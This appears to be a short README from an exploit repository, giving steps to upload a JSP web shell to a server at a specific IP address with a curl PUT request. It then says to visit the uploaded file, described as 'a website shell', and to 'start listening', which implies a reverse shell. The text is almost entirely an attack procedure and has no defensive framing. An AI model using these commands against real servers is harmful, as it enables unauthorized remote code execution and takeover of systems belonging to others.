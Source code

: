 - curl -X PUT "http://140.115.197.136:8081/123.jsp/" -d @hi.jsp

- visit http://140.115.197.136:8081/123.jsp/ (a website shell)

- do the same as ../Readme.md

- remember to start listening
